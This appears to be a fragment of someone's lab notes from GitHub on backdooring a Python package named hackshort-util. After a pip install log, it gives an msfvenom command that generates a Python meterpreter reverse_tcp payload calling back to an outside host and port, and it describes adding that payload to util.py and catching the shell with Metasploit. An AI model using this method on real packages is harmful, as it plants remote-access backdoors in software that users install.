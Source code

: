 ```bash
----------  TRUNKATED
Successfully installed hackshort-util-1.1.4
```
- The installation was successful! Next, let's attempt to import hackshort_util. Although the package does not contain anything of value, we should be able import it. However, if we attempt to import the hackshort_util package from the current directory, the hackshort_util directory will be used instead of the package we just installed. Instead, we'll open a new terminal tab and run python3 from our home directory. While this is a small detail, since the source should be the same regardless, we always want to make sure we're testing the build in case something is misconfigured.
### Not able to perporm
```bash
msfvenom -f raw -p python/meterpreter/reverse_tcp LHOST=192.88.99.76 LPORT=4488
```
Here they they creating the payload with msfvenom, adding into util.py then cloud kali to exploiting with metasploit
# Special Thanks to the Creator of tools and Community
[![](https://github.com/WithSecureLabs.png?size=50)](https://github.com/WithSecureLabs)
